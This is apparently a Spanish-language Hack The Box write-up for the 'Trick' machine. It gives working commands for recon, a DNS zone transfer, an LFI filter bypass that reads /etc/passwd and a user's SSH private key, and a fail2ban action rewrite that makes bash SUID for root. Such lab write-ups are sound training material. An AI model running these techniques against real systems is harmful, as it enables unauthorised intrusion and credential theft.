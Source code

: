 ```yaml
---
layout:   post
title:    "Write Up Trick."
subtitle: "Starting-Point"
category:   HTB
tags:      [Easy,Linux,SSTI,axfr,SQLmap,Write-Up-Machine,Starting-Point,eWPT,eWPTXv2,OSWE,OSCP]  
---
```

![list](/assets/img/trick/trick.png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando 

diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
nmap -p- --open --min-rate 5000 -n -vvv -Pn 10.10.11.166 -oA allports
```
El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}


![list](/assets/img/trick/Kali-2022-08-30-19-23-17.png){:.lead width="800" height="100" loading="lazy"}

***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comandoa anterior debemos saber que 

versiones y servicios que corren en los mismo de ahi podremos determinara posibles 

vulnerabilidades.

Esto lo hacemos con el siguiente comando.


```bash
nmap -p22,25,53,80 -sV -sC 10.10.11.166 -oN target
```
El paso anterior no es nesesario ser (root).
{:.note title="Attention"}


![list](/assets/img/trick/Kali-2022-08-30-19-23-22.png){:.lead width="800" height="100" loading="lazy"}


***
## Analisis de vulnerabilidades


Uso de Investigacion web, Google Hacking,Google Dorks.

Recopilación de información gracias a servicios de terceros.

Ispeccionamos la web.

Inpeccionamos las tecnologias de la ip ataves de la terminal o via  web esto lo 

hacemos con wapalizzer o whatweb.

![list](/assets/img/trick/Kali-2022-08-30-19-27-48.png){:.lead width="800" height="100" loading="lazy"}

Ya que esta el puero 53 abierto vamos a probar el ataque de domain zone transfer 

`axfr`, esto lo hacemos con la herramienta dig.

![list](/assets/img/trick/Kali-2022-08-30-19-37-54.png){:.lead width="800" height="100" loading="lazy"}

```bash
dig trick.htb axfr @10.10.10.161 
```

{:.note}
El dominio se deduce ya que todas las maquinas de este tipo van con el nombre de la misma

y punto htb, todo los dominios los incorporamos al `/etc/hosts`.


{:.note}
El dominio `preprod-payroll.trick.htb` que metimos al `/etc/hosts`es que debemos recargar en la pagina web

para encontrarnos con un login.

![list](/assets/img/trick/1.png){:.lead width="800" height="100" loading="lazy"}

Utilizamos sqlmap para conseguir archivos de la máquina.

![list](/assets/img/trick/Kali-2022-08-30-19-46-06.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Aunque no encontramos nada lo que podemos pensar esque exite el dominio `preprod-` y 

despues del guion puede que exita otros por lo quepodemos aplicar fuerza bruta.

![list](/assets/img/trick/Kali-2022-08-30-20-25-07.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Ahora encontramos otro dominio `preprod-marketing`en el cual encontramos algp de informacion.

inspeccionando la web vemos que se gestiona con el parametro `page=` lo que me hace pensar 

en local file inclusion pero tiene protección,pero con sqlmap podemos leer el index.php 

intentando lo que hicimos antes.

![list](/assets/img/trick/Kali-2022-08-30-20-41-09.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Cuando analizamos el contenido nos podemos fijar que remplaza  "../" a "" vacio, pero 

esta protección se puede bypassear facilmente, hay un ejemplo en el repositorio 

de [PayloadsAllTheThings]

[PayloadsAllTheThings]: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal

Ya con la forma de bypassear el lfi podemos enumerar el numero de usuarios de la  victima.

![list](/assets/img/trick/Kali-2022-08-30-20-46-51.png){:.lead width="800" height="100" loading="lazy"}

```bash
curl "preprod-marketing.trick.htb/index.php?page=..././..././..././etc/passwd" | grep bash
```
Tambien podemos enumerar la id_rsa de usuario michael para conectarnos por ssh.

```bash
curl "preprod-marketing.trick.htb/index.php?page=..././..././..././home/michael/.ssh/id_rsa"
```
Al conectarnos por ssh de la siguiente manera ya somo capaces de buscar la flag de 

user.txt en el escritorio.

![list](/assets/img/trick/Kali-2022-08-30-20-56-38.png){:.lead width="800" height="100" loading="lazy"}

```bash
 ssh michael@10.10.11.166 -i id_rsa
```

{:.note}
No debes olvidarte de darle permiso 600 a la id_rsa.

***
## Escalacion de privileguios

Siempre es bueno ejecutar `LimEnum` Y `pspy` para monitorizar y ver los posibles 

vectores para escalar de privilegios, pero en este caso con sudo -l vemos ue un servicio 

fail2ban se puede reiniciar como root sin contraseña.


Debemos localizar el archivo de configuración de fail2ban.

![list](/assets/img/trick/Kali-2022-08-30-21-11-51.png){:.lead width="800" height="100" loading="lazy"}

No podemos modificar el actionban pero podemos borrarlo y crear uno nuevo asi que 

harémos lo siguiente preferentemente en /tmp.

![list](/assets/img/trick/Kali-2022-08-30-21-14-58.png){:.lead width="800" height="100" loading="lazy"}

```bash
sed "s/<iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>/chmod u+s \/bin\/bash/g" /etc/fail2ban/action.d/iptables-multiport.conf > config.conf
```

{:.note}
injectaremos ese one-liner en config.conf.


```bash
rm -f /etc/fail2ban/action.d/iptables-multiport.conf
```

{:.note}
Borramos el archivo `iptables-multiport.conf`.


```bash
mv config.conf /etc/fail2ban/action.d/iptables-multiport.conf
```

{:.note}
Movemos config.conf a la ruta en action.d con el nombre`iptables-multiport.conf` .


Reiniciaremos el servicio y aplicaremos fuerza bruta con `Hydra` para forzar el ban

Ahora si como ya no estamos restingidos a nivel de iptables podemos usar Hydra y después 

dealgunos segundos la bash deberia de convertirse en suid y nos convertimos root.


![list](/assets/img/trick/Kali-2022-08-30-21-18-19.png){:.lead width="800" height="100" loading="lazy"}

En estepunto usaremos `ls -la` para ver debe de estr con la letra "s" y luego 

con el comado `bash -p` non comvertimos en root.

![list](/assets/img/trick/Kali-2022-08-30-21-38-25.png){:.lead width="800" height="100" loading="lazy"}

:.note}
La flag de rootsueleestr en el escritorip del usuario /root.

***
```bash
🎉 Felicitaciones ya has comprometido Trick de HackTheBox 🎉
```
{:.centered}
***
<!---Back to [Beginner Track](2022-09-12-Beginner-Track.md){:.heading.flip-title}
{:.read-more}-->